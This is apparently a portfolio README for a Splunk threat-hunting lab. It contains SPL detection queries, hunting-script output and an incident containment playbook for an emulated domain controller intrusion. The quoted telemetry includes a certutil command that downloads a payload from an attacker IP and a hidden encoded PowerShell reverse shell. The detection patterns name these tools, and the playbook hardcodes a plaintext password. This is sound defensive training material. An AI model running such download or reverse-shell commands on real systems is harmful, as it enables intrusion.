

# SIEM Log Analysis, Threat Hunting & Security Alerting Lab (Splunk Enterprise)

**Author:** Osagie Henry Idehen  
**Target Roles:** Tier 1 / Tier 2 SOC Analyst • Threat Hunter • Detection Engineer • SIEM Specialist  
**Certification Alignment:** CompTIA Security+  
**Environment & Tooling:** Splunk Enterprise, Windows Server 2022 (Domain Controller `DC-CORP-01`), Windows Event Logs, Microsoft Sysmon, Custom PowerShell Hunting Engine (`hunt_threats.ps1`), Splunk Dashboard XML (`splunk_soc_dashboard.xml`), Correlation Searches (`savedsearches.conf`)  
**Framework Mapping:** MITRE ATT&CK (Enterprise) — T1110.001, T1078, T1059.001, T1071.001, T1136.002, T1098, T1105, T1070.001; NIST SP 800-61 Rev. 2  

---

## 1. Project Overview & Scenario

Modern Security Operations Centers (SOCs) rely on centralized Security Information and Event Management (SIEM) systems to ingest massive volumes of endpoint and network telemetry, correlate discrete events, and uncover stealthy multi-stage cyberattacks.

In this enterprise detection and threat-hunting project, I analyzed an active multi-stage intrusion targeting a primary corporate Domain Controller (`DC-CORP-01.globaltech.corp`):

1. **Telemetry Ingestion & Pipeline Architecture:** Architected ingestion of Windows Security Event Logs and Microsoft Sysmon operational logs into Splunk Enterprise.
2. **Adversary Emulation & Multi-Stage Attack:** Emulated a full cyber kill chain comprising password spraying, brute-force access, obfuscated PowerShell C2 beaconing, rogue Domain Admin creation, Living-off-the-Land (LOLBAS) ingress, and anti-forensic audit log clearing.
3. **Detection Engineering & Correlation Searches (SPL):** Authored high-fidelity Splunk Search Processing Language (SPL) correlation rules to identify threshold anomalies, suspicious process executions, and privilege escalation in real time.
4. **Interactive SOC Dashboard Engineering:** Designed and deployed a dark-mode Splunk Enterprise XML dashboard featuring single-value KPIs, attack progression timeline bars, and real-time detection queues.
5. **Automated Hunting Script (`hunt_threats.ps1`):** Authored an automated PowerShell threat hunting script that parses raw JSON/EVTX telemetry, computes risk scores, and outputs structured SOC findings.
6. **Incident Containment & Playbook (NIST SP 800-61 Rev. 2):** Formulated an incident response plan detailing host isolation, account purging, perimeter blocking, and dual `krbtgt` password resets to neutralize Kerberos Golden Ticket persistence.

---

## 2. Lab Architecture & Data Pipeline

```mermaid
flowchart TD
    subgraph Target["Enterprise Infrastructure (Target)"]
        DC["Primary Domain Controller\n(DC-CORP-01)"]
        SecLog["Windows Security Log\n(Events: 4625, 4624, 4728, 1102)"]
        SysLog["Microsoft Sysmon\n(Event ID 1 & 3: Process / Network)"]
        UF["Splunk Universal Forwarder\n(inputs.conf / outputs.conf)"]

        DC --> SecLog
        DC --> SysLog
        SecLog --> UF
        SysLog --> UF
    end

    subgraph Adversary["Adversary Emulation (185.220.101.5)"]
        BF["Brute Force / Password Spray\n(MITRE ATT&CK T1110.001)"]
        Shell["Encoded PowerShell C2\n(MITRE ATT&CK T1059.001)"]
        Esc["Add svc-backup-admin to Domain Admins\n(MITRE ATT&CK T1098)"]
        Wipe["Clear Security Event Log\n(MITRE ATT&CK T1070.001)"]

        BF -->|Network Attack| DC
        Shell -->|C2 Callback| DC
        Esc -->|Privilege Escalation| DC
        Wipe -->|Defense Evasion| DC
    end

    subgraph Splunk["Splunk Enterprise SOC Infrastructure"]
        Index["Splunk Indexer\n(index=windows_security & index=sysmon)"]
        Engine["Correlation Engine\n(savedsearches.conf)"]
        Dash["SOC Alerting Dashboard\n(splunk_soc_dashboard.xml)"]
        Alert["SOC Alert Queue\n(High & Critical Incidents)"]

        UF -->|Encrypted TLS (Port 9997)| Index
        Index --> Engine
        Engine --> Dash
        Engine --> Alert
    end
```

---

## 3. Threat Hunting & Splunk SPL Queries

### 3.1 Hunt 1: High-Frequency Logon Failures (Brute Force Detection)
**Threat Context:** Adversaries systematically guess passwords across enterprise accounts (MITRE ATT&CK T1110.001).
```spl
index=windows_security EventCode=4625
| stats count, values(user) as targeted_users, values(workstation) as workstations, values(sub_status) as failure_codes by src_ip
| where count >= 5
| eval risk_severity="HIGH", mitre_tactic="Credential Access (T1110)"
```
* **Telemetry Finding:** Source IP `185.220.101.5` generated 8 failed logon attempts within 60 seconds targeting `Administrator`, `jdoe`, and `sql_svc`.

---

### 3.2 Hunt 2: Compromised Account Success Post-Brute Force
**Threat Context:** Correlating logon failures with an immediate successful logon from the same external IP confirms a breached credential (MITRE ATT&CK T1078).
```spl
index=windows_security EventCode=4624 (Logon_Type=3 OR Logon_Type=10)
[ search index=windows_security EventCode=4625
  | stats count by src_ip
  | where count >= 3
  | fields src_ip ]
| table _time, computer_name, user, src_ip, logon_type
| eval alert="CRITICAL: Compromised Account Active Session", mitre_tactic="Initial Access (T1078)"
```
* **Telemetry Finding:** `GLOBALTECH\Administrator` successfully logged on via network logon (Type 3) from `185.220.101.5` at 14:11:05 UTC.

---

### 3.3 Hunt 3: Obfuscated PowerShell Reverse Shell & LOLBAS Ingress
**Threat Context:** Attackers leverage encoded command-line arguments to hide execution strings and abuse native Windows binaries (`certutil.exe`) to download payloads (MITRE ATT&CK T1059.001, T1105).
```spl
index=sysmon EventCode=1
(Image="*\\powershell.exe" AND (CommandLine="*-enc*" OR CommandLine="*-w hidden*" OR CommandLine="*downloadstring*"))
OR (Image="*\\certutil.exe" AND CommandLine="*-urlcache*")
| table _time, computer_name, user, Image, CommandLine, ParentImage, Hashes
| eval alert="Suspicious LOLBAS Execution", mitre_tactic="Execution / Ingress (T1059 / T1105)"
```
* **Telemetry Finding:** 
  1. `powershell.exe -nop -w hidden -enc JABj...` executed to establish an outbound TCP 443 reverse shell back to `185.220.101.5`.
  2. `certutil.exe -urlcache -split -f http://185.220.101.5/payload.exe C:\Windows\Temp\update_agent.exe` used to stage malicious binaries.

---

### 3.4 Hunt 4: Rogue Domain Admin Account Creation
**Threat Context:** Adversaries create backdoor administrator accounts to maintain persistent domain control (MITRE ATT&CK T1098).
```spl
index=windows_security (EventCode=4728 OR EventCode=4732) (group_name="*Domain Admins*" OR group_name="*Enterprise Admins*")
| table _time, computer_name, subject_user_name, target_user_name, group_name
| eval alert="CRITICAL: Unauthorized Domain Admin Added", mitre_tactic="Privilege Escalation (T1098)"
```
* **Telemetry Finding:** Rogue account `svc-backup-admin` created (Event 4720) and added directly to `Domain Admins` (Event 4728) by compromised user `Administrator`.

---

### 3.5 Hunt 5: Anti-Forensics / Audit Log Wiping
**Threat Context:** Attackers clear event logs to thwart post-incident investigations (MITRE ATT&CK T1070.001).
```spl
index=windows_security EventCode=1102
| table _time, computer_name, user, domain
| eval alert="CRITICAL: Security Audit Log Cleared", mitre_tactic="Defense Evasion (T1070.001)"
```
* **Telemetry Finding:** Event 1102 triggered on `DC-CORP-01` by `svc-backup-admin` at 14:13:20 UTC.

---

## 4. Automated Threat Hunting Script (`hunt_threats.ps1`)

To automate log parsing and alert correlation without requiring an active Splunk instance on every workstation, I engineered a standalone PowerShell hunting engine:

```powershell
.\hunt_threats.ps1 -Path ".\attack_telemetry.json"
```

### Execution Output:
```text
==========================================================================
       SOC SIEM LOG ANALYSIS & THREAT HUNTING ENGINE (SPLUNK EMULATOR)    
==========================================================================
Target Telemetry : C:\...\Splunk-Threat-Hunting-Lab\attack_telemetry.json
Execution Time   : 2026-10-25 14:13:30 UTC
Lead SOC Analyst : Osagie Henry Idehen

[*] Successfully ingested 19 security events across endpoints.

[+] HUNT 1: Brute Force & Password Spraying Detection (Event ID 4625)
    [!] THREAT DETECTED: High-frequency logon failures
        Source IP  : 185.220.101.5 (Defanged: 185[.]220[.]101[.]5)
        Target User: Administrator
        Attempts   : 8 failures in < 60 seconds
        MITRE T1110: Password Spraying / Brute Force

[+] HUNT 2: Successful Logon Following Failed Attempts (Event ID 4624)
    [CRITICAL ALERT] Compromised Account Confirmed via Remote Logon
        Timestamp  : 2026-10-25T14:11:05Z
        Target Host: DC-CORP-01.globaltech.corp
        User       : Administrator
        Logon Type : 3 (Network Logon)
        Origin IP  : 185.220.101.5

[+] HUNT 3: Suspicious Process Execution & LOLBAS Abuse (Sysmon Event ID 1)
    [ALERT] Suspicious Execution Detected:
        Binary   : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Command  : powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqA...
        Parent   : C:\Windows\System32\cmd.exe
        User     : GLOBALTECH\Administrator
        SHA-256  : SHA256=852D0F88D0592F8E74FB191404C16F754714B970794E278B6D1B46AAEC52A3F3

    [ALERT] Suspicious Execution Detected:
        Binary   : C:\Windows\System32\certutil.exe
        Command  : certutil.exe -urlcache -split -f http://185.220.101.5/payload.exe C:\Windows\Tem...
        Parent   : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        User     : GLOBALTECH\Administrator
        SHA-256  : SHA256=106D44BC5BD52DC30B7EFEC0CD073CE1F8F128E619D7BB4BA16D713361E14B4B

[+] HUNT 4: Rogue Account Creation & Admin Group Escalation (Event ID 4720/4728)
    [!] Backdoor User Created: svc-backup-admin by Administrator
    [!] Elevated to Privileged Group: Domain Admins
        Target User: svc-backup-admin
        MITRE T1078 / T1098: Account Manipulation

[+] HUNT 5: Defense Evasion & Anti-Forensics (Event ID 1102)
    [CRITICAL] Security Event Log Cleared on DC-CORP-01.globaltech.corp
        Actor User: svc-backup-admin
        MITRE T1070.001: Clear Windows Event Logs

==========================================================================
  HUNT RESULT: ACTIVE ENTERPRISE INTRUSION CONFIRMED (SEVERITY: CRITICAL) 
  RECOMMENDED ACTION: ISOLATE DC-CORP-01, DISABLE svc-backup-admin, DROP IP
==========================================================================
```

---

## 5. Splunk SOC Dashboard Visualization



* **Dashboard File:** [`splunk_soc_dashboard.xml`](splunk_soc_dashboard.xml) (Native Splunk Enterprise XML source)
* **Interactive Standalone View:** [`splunk_soc_dashboard.html`](splunk_soc_dashboard.html) (Browser-viewable console)
* **Correlation Rules:** [`savedsearches.conf`](savedsearches.conf) (Splunk alerting definitions)

---

## 6. Incident Containment & Eradication Playbook (NIST SP 800-61 Rev. 2)

```powershell
# 1. Immediate Host Isolation
Invoke-LimaCharlieCommand -SensorId "DC-CORP-01" -Command "isolate"

# 2. Terminate Malicious Process Trees
Get-Process powershell, certutil -ErrorAction SilentlyContinue | Stop-Process -Force

# 3. Disable & Remove Rogue Backdoor Account
Disable-ADAccount -Identity "svc-backup-admin"
Remove-ADGroupMember -Identity "Domain Admins" -Members "svc-backup-admin" -Confirm:$false
Remove-ADUser -Identity "svc-backup-admin" -Confirm:$false

# 4. Invalidate Compromised Administrator Password
Set-ADAccountPassword -Identity "Administrator" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Temp#Hardened!P@ss2026" -Force)

# 5. Dual KRBTGT Password Reset (Golden Ticket Mitigation)
# Invalidates all existing Kerberos TGT tickets across the domain
.\Reset-KrbTgt-PasswordForGoldenTicketMitigation.ps1

# 6. Edge Perimeter Block
# Drop adversary C2 IP 185[.]220[.]101[.]5 at edge firewalls
```

---

## 7. Technical Interview Talking Points (STAR Method)

When asked: *"Can you describe a complex threat hunting investigation you conducted using a SIEM?"*

### Your 60-Second Answer:
> *"In my SIEM threat hunting lab using Splunk Enterprise, I investigated an active intrusion targeting an enterprise Domain Controller (`DC-CORP-01`). 
>
> Using custom Search Processing Language (SPL) queries across Windows Security and Sysmon logs, I identified an initial brute-force burst of Event 4625 failures from an external IP (`185.220.101.5`), followed 60 seconds later by a successful Event 4624 Type 3 network logon to the built-in `Administrator` account.
>
> Triaging post-breach telemetry, I uncovered an obfuscated Base64 PowerShell reverse shell communicating outbound over port 443, followed by the creation of a rogue account named `svc-backup-admin` which was immediately added to the `Domain Admins` group (Event 4728). The adversary also used `certutil.exe` to stage secondary payloads and cleared the Security audit log (Event 1102).
>
> To respond, I built an automated PowerShell hunting engine, developed real-time Splunk correlation alert rules, and drafted an incident containment playbook detailing host isolation, account purging, and performing a dual `krbtgt` password reset to eliminate Kerberos Golden Ticket persistence."*

---

## 8. Repository Structure

```
Splunk-Threat-Hunting-Lab/
├── README.md                              # This Technical Lab Documentation
├── attack_telemetry.json                  # High-Fidelity Telemetry Dataset
├── hunt_threats.ps1                      # Standalone Threat Hunting & Correlation Engine
├── savedsearches.conf                     # Production Splunk Alert Rules & Correlations
├── splunk_soc_dashboard.xml               # Splunk Enterprise Dashboard XML Source
├── splunk_soc_dashboard.html              # Standalone Dark-Mode Interactive Dashboard
├── splunk_soc_dashboard.png               # High-Resolution Dashboard Screenshot
└── incident_report_INC-20261025-003.md    # Formal SOC Incident Investigation Report
```
